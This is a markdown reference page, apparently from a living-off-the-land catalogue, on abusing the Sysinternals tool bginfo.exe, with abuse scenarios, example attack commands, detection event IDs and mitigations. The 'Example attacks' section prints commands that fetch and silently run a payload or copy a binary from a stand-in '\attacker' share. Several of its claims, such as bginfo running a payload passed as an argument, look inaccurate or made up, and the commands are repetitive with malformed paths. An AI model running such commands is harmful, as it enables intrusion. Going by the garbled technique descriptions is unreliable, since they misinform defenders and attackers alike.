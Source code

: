 # bginfo.exe
## What is it?
*```bginfo.exe``` is a legitimate utility developed by Sysinternals (now owned by Microsoft) that is used to display system information on the desktop background.*
*It can display a variety of system information, such as CPU, memory usage, IP address, and other system parameters directly on the user’s desktop background. This tool is often used by system administrators to provide real-time information on machine status for quick diagnostics.*

## Legitimate Usage
- **Display System Information** → Shows important system details like IP address, memory, and disk usage on the desktop background.
- **System Monitoring** → Used by IT administrators to visually track the state of a system at a glance.
- **Automate Information Updates** → Can be configured to automatically update the displayed system information at regular intervals.
- **Personalized Desktop Information** → Customizes desktop for users with vital data like uptime or network status.

## How to abuse it
- **Persistence** → Attackers can use ```bginfo.exe``` to display malicious information or create a visually misleading background to distract or confuse users.
- **Bypass Security Monitoring** → As a trusted system utility, ```bginfo.exe``` can be leveraged to bypass security controls and avoid detection when placed in trusted directories.
- **Lateral Movement** → Attackers can deploy ```bginfo.exe``` across multiple machines in the network to avoid detection, while it masquerades as a normal administrative tool.
- **Execution of Malicious Payloads** → Malicious code can be run in the background while ```bginfo.exe``` appears to be a benign, informational tool.
- **Command and Control (C2) Communication** → It could be abused as part of a communication channel to execute commands or retrieve payloads.

## Example attacks
### 1. Malicious Persistence via Background Information
*Attackers can configure ```bginfo.exe``` to run at startup and display malicious or confusing information on the desktop to distract the user while the malicious payload executes in the background.*
**Set Up Malicious Information Display**

```
bginfo.exe C:\path\to\malicious\config.bgi /timer:0 /silent
```

**Effect:**
- ```bginfo.exe``` runs silently at startup, showing a benign or misleading system status on the desktop while the real payload runs in the background.

### 2. Bypassing Detection by Hiding Payloads
*Attackers can use ```bginfo.exe``` to hide the presence of other malicious files or processes on the system.*
**Create a Misleading Desktop Background**

```
bginfo.exe C:\path\to\legitimate\config.bgi /timer:0 /silent
```

**Effect:**
- The background is set to display seemingly normal system information while malicious activities run in the background, evading detection by security tools that focus on active processes.

### 3. Lateral Movement via bginfo.exe
*Attackers can spread ```bginfo.exe``` across a network, using it to install malicious configurations on multiple machines under the guise of an administrative tool.*
**Deploy bginfo.exe Across the Network**

```
xcopy \attacker\malicious\bginfo.exe C:\Windows\System32 /E
```

**Effect:**
- Copies ```bginfo.exe``` to all target machines and sets it up to run silently, creating persistence while moving laterally within the network.

### 4. Remote Execution of bginfo.exe for C2 Communication
*Attackers can use ```bginfo.exe``` to secretly execute malicious payloads or send data to a remote command-and-control server.*
**Execute Malicious Payload via bginfo.exe**

```
bginfo.exe \attacker\payload.exe /timer:0 /silent
```

**Effect:**
- Runs a malicious payload silently on the target machine under the guise of a system utility.

### 5. Using bginfo.exe to Evade Detection by EDR Systems
*Security solutions may overlook ```bginfo.exe``` as it is a trusted and widely-used tool. Attackers can take advantage of this to bypass detection.*
**Use bginfo.exe to Execute Malicious Commands**

```
bginfo.exe C:\malicious\config.bgi /timer:0 /silent
```

**Effect:**
- ```bginfo.exe``` executes in the background with no visible output, bypassing security monitoring tools that focus on active malicious processes.

# Detection & Mitigation
## Detection Methods
**Monitor bginfo.exe Execution**
- **Event ID 4688 (New Process Creation)** → Detect the creation of ```bginfo.exe``` processes, especially when executed with unusual parameters or from untrusted directories.
- **Look for Unauthorized Use** → Ensure that ```bginfo.exe``` is not being used inappropriately in critical or production systems, particularly in network shares or user directories.

**File Integrity Monitoring**
- **Check for File Modifications** → Look for changes to system configuration files related to ```bginfo.exe``` or unauthorized copies in trusted directories like ```C:\Windows\System32```.

**Monitor Scheduled Tasks and Startup Folders**
- **Event ID 4698 (Scheduled Task Created)** → Detect the creation of scheduled tasks or startup entries that may be used for persistence.
- **Event ID 7035 (Service Control Manager)** → Monitor for suspicious service activity related to system utilities like ```bginfo.exe```.

## Mitigation Strategies
- **Restrict bginfo.exe Execution** → Use application whitelisting or security policies to restrict the use of ```bginfo.exe``` to trusted administrators only.
- **Disable Unnecessary Administrative Tools** → If ```bginfo.exe``` is not required for regular administrative tasks, consider disabling it via Group Policy or other management tools.
- **Implement Security Monitoring Solutions** → Use EDR (Endpoint Detection and Response) solutions to detect and block abnormal behaviors associated with trusted utilities like ```bginfo.exe```.
